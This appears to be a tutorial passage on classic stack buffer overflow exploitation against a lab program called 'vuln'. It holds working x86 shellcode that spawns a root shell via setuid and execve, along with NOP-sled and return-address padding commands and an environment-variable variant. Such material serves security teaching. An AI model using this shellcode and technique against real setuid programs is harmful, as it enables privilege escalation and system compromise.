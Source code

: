 ## Interactive Exploits

To experiment more rapidly, one can use perl to generate character strings like in the following:

```
perl -e 'print "A"x20;'
```
or equivalently,
```
perl -e 'print "\x41"x20;'
```
You can concatenate strings with the period character:
```
perl -e 'print "A"x20 ."BCD" ."\x61\x66\x67\x69"x2 ."Z";'
```
Command substitution is accomplished with the grave accent mark:
```
`perl -e 'print "uname";'`
```
Feeding a NOP sled to the vulnerable program:
```
./vuln `perl -e 'print "\x90"x200;'`
```
Writting shellcode to file:
```
perl -e 'print "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";' > shellcode
```
Now the shellcode can be inserted into our perl string using cat:
```
./vuln `perl -e 'print "\x90"x200'; cat shellcode`
```
In the exploit.c code, the exploit buffer is padded with the return address. To read the proper address, we must account for the alignment of the 4 bytes referencing an address location by perhaps padding with 1-3 additional bytes.

In other words, the number of bytes in the NOP sled plus the shellcode must be divisible by 4. With 46 bytes of shellcode and 200 bytes of NOP sled, we have a remainder of 2 bytes causing a misalignment we can correct by adding 2 extra bytes to the NOP sled
```
./vuln `perl -e 'print "\x90"x202'; cat shellcode`
```
Finally, we can repeat the return address and concatenate this to the end of the buffer. Since the target length for the exploit buffer is about 600 bytes and the NOP sled plus shellcode occupies 248 bytes, we repeat the address (600 - 248) / 4 = 88 times. Assuming the return address printed by your ./exploit was 0xbffff978, on an x86 (little-endian) machine, you reverse the bytes for:
```
./vuln `perl -e 'print "\x90"x202'; cat shellcode``perl -e 'print "\x78\xf9\xff\xbf"x88;'`
```
Using newer gcc compilers, you will likely see **stack smashing detected** and the program will abort rather than drop you into a root shell.

Attackers can probe a vulnerable program by changing the number of times a return address is repeated to use fewer bytes in the attack payload. However the buffer will often be too small to fit our shellcode. In this case, an attacker might use an environment variable. Consider the example in **vuln2.c** With a buffer of only 5 bytes, we turn to environment variables.
```
export SHELLCODE=`perl -e 'print "\x90"x100'; cat shellcode`
```
With the debugger gdb, we can examine strings in stack memory to find the shellcode stored in the environment variable SHELLCODE 
```
gdb vuln2
...
(gdb) break main
...
(gdb) run
```